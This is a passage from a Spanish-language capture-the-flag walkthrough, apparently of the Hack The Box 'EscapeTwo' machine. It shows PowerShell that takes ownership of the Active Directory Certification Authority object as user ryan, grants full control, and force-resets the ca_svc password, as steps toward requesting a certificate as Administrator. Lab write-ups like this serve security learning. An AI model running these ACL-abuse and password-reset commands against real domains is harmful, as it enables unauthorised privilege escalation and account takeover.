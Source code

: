 Viendo los usuarios y sabiendo que podemos visualizar los certificados podemos intentar obtener los permisos de ryan sobre el administrador de los certificados.

```powershell
Get-Acl "AD:\CN=Certification Authority,CN=Users,DC=sequel,DC=htb" | Select-Object -ExpandProperty Access | Where-Object {$_.ActiveDirectoryRights -match "WriteOwner"}
```

[![ACL](/assets/img/posts/escapeTwo/acls.png)](/assets/img/posts/escapeTwo/acls.png)

Esto significa que podemos:

- Modificar la contraseña del usuario ca_svc ya que tenemos control sobre los permisos de certificados
- Usar esas credenciales para solicitar un certificado como otro usuario (por ejemplo, Administrator)
- Usar ese certificado para obtener un TGT y escalar privilegios"

```powershell
# Obtener el ACL actual
$acl = Get-Acl "AD:\CN=Certification Authority,CN=Users,DC=sequel,DC=htb"

# Crear el objeto de identidad para ryan
$sid = (Get-ADUser ryan).SID
$identity = [System.Security.Principal.IdentityReference] ([System.Security.Principal.SecurityIdentifier]$sid)
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "GenericAll"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "All"
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $adRights, $type, $inheritanceType)

# Añadimos la nueva regla al ACL
$acl.AddAccessRule($rule)

# Establecer ryan como propietario
$acl.SetOwner($identity)

# Aplicar los cambios
Set-Acl "AD:\CN=Certification Authority,CN=Users,DC=sequel,DC=htb" $acl

Set-ADAccountPassword -Identity "ca_svc" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
Ahora que hemos modificado la contraseña del usuario ca_svc podemos obtener el certificado.
